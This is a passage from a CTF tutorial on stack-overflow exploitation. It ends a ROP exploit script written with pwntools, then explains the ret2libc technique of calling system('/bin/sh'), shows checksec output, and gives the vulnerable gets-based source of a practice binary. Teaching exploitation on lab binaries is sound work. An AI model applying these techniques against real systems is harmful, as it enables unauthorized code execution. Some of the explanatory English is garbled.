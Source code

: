 ```python
    int_0x80, # syscall
)

p.sendlineafter("What do you plan to do?\n", payload)
p.interactive()
```


### Exercise


- [rain.cs.nctu.edu.tw: rop](https://bamboofox.cs.nctu.edu.tw/courses/1/challenges/4)


## ret2libc


### Theory


Ret2libc is the function in the execution libc of the control function, usually returning to the plt of a function or the specific position of the function (that is, the content of the got entry corresponding to the function). In general, we will choose to execute system(&quot;/bin/sh&quot;), so we need to know the address of the system function.


### Examples


We give three examples from simple to difficult.


#### Example 1


Here we take ret2libc1 in bamboofox as an example.


Click to download: [ret2libc1](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc1/ret2libc1)


First, we can check the security of the program.


```shell
$ checksec ret2libc1    
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```


The source program is 32-bit and NX protection is turned on. Let's take a look at the program source code to determine the location of the vulnerability.


```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets((char *)&v4);
  return 0;
}
```
